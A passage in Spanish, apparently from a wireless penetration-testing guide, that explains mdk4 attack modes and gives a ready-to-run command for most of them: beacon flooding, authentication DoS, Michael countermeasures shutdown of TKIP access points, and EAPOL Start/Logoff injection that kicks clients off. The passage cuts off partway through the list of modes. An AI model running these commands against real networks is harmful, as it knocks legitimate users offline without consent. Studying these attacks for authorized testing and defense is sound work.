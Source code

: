 ```bash
# -a Use also non-printable caracters in generated SSIDs and create SSIDs that break the 32-byte limit
# -w n (create Open) t (Create WPA/TKIP) a (Create WPA2/AES)
# -m use real BSSIDS
# All the parameters are optional and you could load ESSIDs from a file
mdk4 wlan0mon b -a -w nta -m
```

**MODO DE ATAQUE a: Denegación de Servicio de Autenticación**

Enviar tramas de autenticación a todos los Puntos de Acceso (APs) accesibles dentro del rango puede sobrecargar estos APs, especialmente cuando hay numerosos clientes involucrados. Este tráfico intenso puede llevar a la inestabilidad del sistema, causando que algunos APs se congelen o incluso se reinicien.

```bash
# -a BSSID send random data from random clients to try the DoS
# -i BSSID capture and repeat pakets from authenticated clients
# -m use real MACs
# only -a or -i can be used
mdk4 wlan0mon a [-i EF:60:69:D7:69:2F] [-a EF:60:69:D7:69:2F] -m
```

**MODO DE ATAQUE p: Sondeo de SSID y Fuerza Bruta**

El sondeo de Puntos de Acceso (APs) verifica si un SSID está correctamente revelado y confirma el rango del AP. Esta técnica, junto con **la fuerza bruta de SSIDs ocultos** con o sin una lista de palabras, ayuda a identificar y acceder a redes ocultas.

**MODO DE ATAQUE m: Explotación de Contramedidas de Michael**

Enviar paquetes aleatorios o duplicados a diferentes colas de QoS puede activar las Contramedidas de Michael en **APs TKIP**, lo que lleva a un apagado del AP de un minuto. Este método es una táctica eficiente de ataque **DoS** (Denial of Service).

```bash
# -t <BSSID> of a TKIP AP
# -j use inteligent replay to create the DoS
mdk4 wlan0mon m -t EF:60:69:D7:69:2F [-j]
```

**MODO DE ATAQUE e: Inyección de Paquetes EAPOL Start y Logoff**

Inundar un AP con **tramas EAPOL Start** crea **sesiones falsas**, abrumando al AP y bloqueando a los clientes legítimos. Alternativamente, inyectar **mensajes EAPOL Logoff falsos** desconecta forzosamente a los clientes, ambos métodos interrumpen efectivamente el servicio de la red.

```bash
# Use Logoff messages to kick clients
mdk4 wlan0mon e -t EF:60:69:D7:69:2F [-l]
```

**MODO DE ATAQUE s: Ataques para redes de malla IEEE 802.11s**

Varios ataques a la gestión de enlaces y el enrutamiento en redes de malla.

**MODO DE ATAQUE w: Confusión de WIDS**
